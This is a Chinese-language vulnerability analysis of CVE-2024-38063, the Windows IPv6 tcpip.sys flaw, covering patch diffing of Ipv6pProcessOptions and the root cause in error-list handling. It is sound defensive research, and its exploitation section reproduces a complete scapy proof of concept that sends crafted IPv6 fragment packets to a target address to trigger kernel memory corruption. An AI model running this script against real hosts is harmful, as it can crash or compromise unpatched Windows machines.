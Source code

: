```yaml
---
title: IPv6远程代码执行漏洞（CVE-2024-38063）分析报告
slug: ipv6-remote-code-execution-cve-2024-38063-analysis-report
author: 裴伟伟
date: 2024-11-01 20:00
categories: 漏洞分析
tags:
  - IPv6
  - 远程代码执行
  - CVE-2024-38063
  - RCE
  - 漏洞分析
  - 补丁与修复
---
```


2024年8月13日，微软在“补丁星期二（Patch Tuesday）”更新中披露了一个严重漏洞CVE-2024-38063，该漏洞是由国内赛博昆仑实验室的Wei发现并上报，影响到Windows系统的TCP/IP协议实现，TCP/IP协议是用于互联网通信的基本通信协议。该漏洞的CVSS评分为9.8（严重），且允许攻击者在启用IPv6的系统上远程执行任意代码（RCE，Remote Code Execution），因而这个漏洞可以远程被利用，并且有“蠕虫化”的潜力，这也意味着它可以在无需用户交互的情况下在网络中传播。

![](./ipv6-remote-code-execution-cve-2024-38063-analysis-report/assets/17617403038700.4627288815015641.png)

## 影响范围

该漏洞影响到启用IPv6协议的Windows系统，而IPv6协议在Windows系列系统中都是默认启用的，因此漏洞影响范围包括Windows 10、Windows 11和从2008年到2022年的各种Windows Server版本。

## 漏洞原理

从漏洞信息可以看出该漏洞的弱点是CWE-191（整数溢出），但为了理解该漏洞的原理，需要了解CVE-2024-39063的补丁做了哪些修订，由于受影响的是IPv6协议的实现文件tcpip.sys，因此需要对比补丁前后的tcpip.sys文件的不同，这个步骤可以利用Winbindex网站（https://winbindex.m417z.com/ ）和bindiff工具，前者可以用来查询和下载不同版本的Windows系统文件，包括像tcpip.sys这样的系统文件，后者是一个二进制差异对比工具，通常配合IDA Pro使用，用来比较两个不同版本的二进制文件。

笔者使用的是Windows 10专业版22H2版本的系统进行文件对比和分析，因此在Winbindex中寻找补丁发布（2024年8月13日）前后该版本操作系统的tcpip.sys文件。

![](./ipv6-remote-code-execution-cve-2024-38063-analysis-report/assets/17617403039400.03805690735883471.png)

下载之后的文件需要用IDA Pro分别打开并保存（或快捷键Ctrl+W）为i64后缀的数据文件，之后使用IDA Pro自带的bindiff工具（或快捷键Shift+D）对比两个文件的差异。

![](./ipv6-remote-code-execution-cve-2024-38063-analysis-report/assets/17617403040120.43157018054651053.png)

在匹配函数（Matched Functions）功能中可以看到这两个文件唯一的区别是来自Ipv6pProcessOptions函数，根据函数名称可知该函数在Windows系统中是用来处理IPv6数据包选项信息的。

IPv6报文（Packet）的报头（Header）分为两个部分，第一部分是固定报头或基础报头（Fixed/Base Header），其长度固定为40字节，包括版本（Version）、通信类（Traffic Class）、流标签（Flow Label）、载荷长度（Payload Length）、下一个报头（Next Header）、跳数限制（Hop Limit）、源地址（Source Address）、目的地址（Dstination Address），第二部分是扩展报头（Extension Header），其长度不固定，但内容包括逐跳选项（Hop-by-Hop Options）、目的地选项(Destination Options)、路由头(Routing Header)等。

![](./ipv6-remote-code-execution-cve-2024-38063-analysis-report/assets/17617403040850.3559618279779878.png)

Ipv6pProcessOptions函数就是用来处理IPv6报头的扩展报头选项的，这个函数在两个版本的文件中的主要区别在于函数最后一部分代码，7月16日签名的版本中该部分的代码如下：

![](./ipv6-remote-code-execution-cve-2024-38063-analysis-report/assets/17617403041540.48868373420788513.png)

8月10日签名的版本中该部分的代码如下：

![](./ipv6-remote-code-execution-cve-2024-38063-analysis-report/assets/17617403042310.16420388789884965.png)

上面代码中Feature\_2365398330\_\_private\_IsEnableDeviceUsage函数的返回值赋值给IsEnableDeviceUsage，而该变量决定是否执行IppSendError函数还是IppSendErrorList函数，后者是补丁前文件中的代码，结合函数名称可以判断，该函数用于设定是否启用补丁程序，以避免补丁程序存在缺陷对系统产生影响，同时也意味着漏洞的位置是在IppSendErrorList函数的实现中。

接着查看IppSendErrorList函数（如下图），这个函数中定义了一个临时的指针变量\*v8，同时结合通过遍历传入的指针参数\*a3，实现IppSendError函数对于指针\*a3的遍历调用，即使用函数IppSendError处理链表中的节点。

![](./ipv6-remote-code-execution-cve-2024-38063-analysis-report/assets/17617403043040.18093937321286524.png)

而补丁修改的代码是删除了IppSendErrorList函数直接调用IppSendError函数，也就是说补丁的核心功能是去掉了链表遍历。这是两个完全不同逻辑的处理方式，前者是通过链表处理每个节点，后者则是只处理一个节点，上述代码的入参a1同时也是Ipv6pProcessOptions函数的入参，这个参数其实是NET\_BUFFER\_LIST结构的网络包的列表，更新后的补丁只处理第一个节点，也意味着漏洞的成因是由于链表的处理。

从IppSendError函数名称可以判断，这个函数的功能是用来发现IPv6报头错误后发送错误的，之所以存在链表的处理方式，根据上文中IPv6报头结构可知，下一个头（Next Header）会指定扩展报头，而每一个扩展报头又会通过下一个头（Next Header）继续指定扩展报头，这个结构本身就是链表形式，因此IppSendErrorList设计的初衷应当是用来逐个处理每一个扩展头的错误。

在IppSendError函数的伪代码中可以看到多次调用NetioRetreatNetBufferList函数，该函数是用来撤回网络缓冲区重新传输或丢弃数据包用的，或者说是用来处理错误信息的必要函数，既然是整数溢出漏洞，那么就需要特别关注下NetioRetreatNetBufferList上下文的部分，其中尤为可疑的部分是下图中的代码。

![](./ipv6-remote-code-execution-cve-2024-38063-analysis-report/assets/17617403043750.5272527926120424.png)

结合NetioRetreatNetBufferList的定义如下：

``` C++
VOID
NetioRetreatNetBufferList(
 _In_ PNET_BUFFER_LIST NetBufferList,
 _In_ ULONG DataOffsetDelta,
 _In_ ULONG DataBackFill,
 _In_ BOOLEAN MdlOnly
 );
 ```

    NetioRetreatNetBufferList的第二个参数是整数类型的DataOffsetDelta，该参数指定的是NET\_BUFFER\_LIST中的数据指针的偏移量，而这个偏移量在处理分包的时候被置为了0。这么做的后果是遇到多个小报文组成的IPv6数据包时，随着分片处理和合并，使用重置为0的DataOffsetDelta申请内存，并在后续的Ipv6pReassemblyTimeout函数中调用，从而产生了内存溢出。

## 漏洞利用

    ynwarcs已经在漏洞披露后编写了很好的PoC程序，代码如下：

``` Python
from scapy.all import *

iface='' # interface of network
ip_addr='' # Target ip address
mac_addr='' # Leave this empty at default
num_tries=20
num_batches=20

def get_packets_with_mac(i):
    frag_id = 0xdebac1e + i
    first = Ether(dst=mac_addr) / IPv6(fl=1, hlim=64+i, dst=ip_addr) / IPv6ExtHdrDestOpt(options=[PadN(otype=0x81, optdata='a'*3)])
    second = Ether(dst=mac_addr) / IPv6(fl=1, hlim=64+i, dst=ip_addr) / IPv6ExtHdrFragment(id=frag_id, m = 1, offset = 0) / 'aaaaaaaa'
    third = Ether(dst=mac_addr) / IPv6(fl=1, hlim=64+i, dst=ip_addr) / IPv6ExtHdrFragment(id=frag_id, m = 0, offset = 1)
    return [first, second, third]

def get_packets(i):
    if mac_addr != '':
        return get_packets_with_mac(i)
    frag_id = 0xdebac1e + i
    first = IPv6(fl=1, hlim=64+i, dst=ip_addr) / IPv6ExtHdrDestOpt(options=[PadN(otype=0x81, optdata='a'*3)])
    second = IPv6(fl=1, hlim=64+i, dst=ip_addr) / IPv6ExtHdrFragment(id=frag_id, m = 1, offset = 0) / 'aaaaaaaa'
    third = IPv6(fl=1, hlim=64+i, dst=ip_addr) / IPv6ExtHdrFragment(id=frag_id, m = 0, offset = 1)
    return [first, second, third]

final_ps = []
for _ in range(num_batches):
    for i in range(num_tries):
        final_ps += get_packets(i) + get_packets(i)

print("Sending packets")
if mac_addr != '':
    sendp(final_ps, iface)
else:
    send(final_ps, iface)

for i in range(60):
    print(f"Memory corruption will be triggered in {60-i} seconds", end='\r')
    time.sleep(1)
print("")
```

## 参考资料

*   https://github.com/ynwarcs/CVE-2024-38063
    
*   https://malwaretech.com/2024/08/exploiting-CVE-2024-38063.html